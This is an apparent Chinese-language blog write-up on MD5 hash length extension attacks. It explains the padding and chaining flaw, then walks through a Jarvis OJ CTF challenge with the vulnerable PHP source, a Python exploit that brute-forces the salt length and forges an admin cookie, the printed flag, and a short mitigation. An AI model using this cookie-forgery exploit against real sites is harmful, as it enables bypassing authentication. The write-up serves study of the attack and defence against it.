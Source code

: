 ```yaml
---
title: hash长度扩展攻击
copyright: true
date: 2018-08-13 19:29:04
tags: [密码学]
categories: 密码安全
---
```

# 简介
`hash长度扩展攻击`主要指对类似MD5算法的hash算法攻击。当一个程序有类似`if(input1 == md5(salt+input2)){}`的逻辑并且能获得一次`md5(salt+input2)`的hash值的时候，那么这个程序就容易受到`hash长度扩展攻击`。
# 分析原理
这种针对哈希算法的攻击当然与算法有关。这里通过MD5算法来分析这种攻击方式。
## MD5算法
MD5是一种消息摘要算法，它的计算过程不可逆。它主要通过以下步骤来计算最后的hash值：
1. 填充。计算传入的消息文本`text`的长度（单位：bits），看它除以512的余数是否为448。等于则将填充前的长度（单位：bits）填充到消息文本的末端（占64bits）。否则，填充二进制1到消息文本末端，之后填充二进制0直到最后消息的长度除以512的余数为448，再将填充前的长度（单位：bits）填充到消息文本的末端（占64bits）。
2. 分组。由于第一步的填充消息的长度必为512的整数倍，将填充完毕的消息按每组512bits分组。
3. 分组计算。将`A=0x67452301,B=0xefcdab89,C=0x98badcfe,D=0x10325476`作为第一组的链变量，并且每一组进行64步轮换计算，每组计算完成后得到`a,b,c,d`四个32位的整数，将这四个整数分别加上该组的链变量作为下一组的链变量使用。当所有组计算完毕，得到最后的链变量。将链变量级联起来作为最后的结果。
这些就是MD5算法的计算步骤，关于`轮换计算`的算法有点复杂就不写了，网上有。

## 攻击分析
分析MD5算法的第三步可以发现，每组消息的计算结果取决于该组的链变量和该组的消息内容，如果知道了最后一组的链变量和消息内容那么不需要知道前面几组到底是什么就可以计算出最后的消息摘要。这对于类似有`if(input1 == md5(salt+input2)){}`代码逻辑的程序来说是可能绕过盐值而达到判断成立的。因为，我们可以通过在原消息的基础上，扩展一个消息分组出来，然后利用最后一个扩展的消息分组的内容可控性，和原消息的hash值（这能计算出最后一个分组的链变量）来重演最后一个分组的计算过程，进而得到最后的hash值。
# 举个例子
下面举一个例子来说明`hash长度扩展攻击`的利用场景。
这是一道`jarvis oj`平台上的CTF题目`flag在管理员手里`，在web板块。
题目可以读取备份文件`index.php~`
```php
<!DOCTYPE html>
<html>
<head>
<title>Web 350</title>
<style type="text/css">
	body {
		background:gray;
		text-align:center;
	}
</style>
</head>

<body>
	<?php 
		$auth = false;
		$role = "guest";
		$salt = 
		if (isset($_COOKIE["role"])) {
			$role = unserialize($_COOKIE["role"]);
			$hsh = $_COOKIE["hsh"];
			if ($role==="admin" && $hsh === md5($salt.strrev($_COOKIE["role"]))) {
				$auth = true;
			} else {
				$auth = false;
			}
		} else {
			$s = serialize($role);
			setcookie('role',$s);
			$hsh = md5($salt.strrev($s));
			setcookie('hsh',$hsh);
		}
		if ($auth) {
			echo "<h3>Welcome Admin. Your flag is 
		} else {
			echo "<h3>Only Admin can see the flag!!</h3>";
		}
	?>
	
</body>
</html>
```
读源码可以发现，只有当`$_COOKIE["role"]`的反序列化值为`admin`并且`$hsh === md5($salt.strrev($_COOKIE["role"]))`成立才能getflag。这和hash长度扩展攻击的利用场景一致，因为我们能够控制最后一个消息分组的内容，而且程序会在`$_COOKIE["role"]`未定义的时候把一段hash值返回给我们，这样我们能够通过该hash值反计算到最后一个分组的链变量，即最后一个消息分组的内容和链变量都知道了，那么即使不知道盐值也可计算最后的hash值。
需要注意的是，我们传入程序的是两个输入，一个作为消息主体传入另一个作为最后的hash值传入。虽然hash值能准确计算，但是消息主体却是不确定的，因为我们无法得知`salt`的长度，我们就无法计算前一个消息分组究竟要怎么填充，也就无法得到准确的消息主体了。所以这一题需要爆破`salt`的长度。下面是exp
```python
#coding=utf8
from myhash import *
import requests
import urllib

url = "http://web.jarvisoj.com:32778/"
tmp_hsh = "3a4727d57463f122833d9e732f94e4e0"
#爆破
for i in xrange(1,20):
    p = 's:5:"admin";'[::-1]
    poc = 's:5:"guest";'
    poc = md5_fill('x'*i+poc[::-1]).lstrip('x'*i)+p
    poc = poc[::-1]
    poc = urllib.quote(poc)
    tmp = hash_split(tmp_hsh)
    m = MD5(p,*tmp)
    s = m.md5(512+len(p)*8)
    headers = {"Cookie":"role={};hsh={}".format(poc,s)}
    r = requests.get(url,headers=headers)
    if r.text.find("Only Admin") == -1:
        print r.text
        print i
        break
    else:
        print 'No.'
```
结果
```
> python poc.py
No.
No.
No.
No.
No.
No.
No.
No.
No.
No.
No.
<!DOCTYPE html>
<html>
<head>
<title>Web 350</title>
<style type="text/css">
        body {
                background:gray;
                text-align:center;
        }
</style>
</head>

<body>
        <h3>Welcome Admin. Your flag is PCTF{H45h_ext3ndeR_i5_easy_to_us3} </h3>
</body>
</html>

12

```
这里的`myhash`是我自己写的`MD5`算法，便于扩展攻击。可以在我的[github](https://github.com/r00tnb/pylibs)上找到。
# 预防
使用`md5(salt+hash(input))`的方式来使消息主体不可控。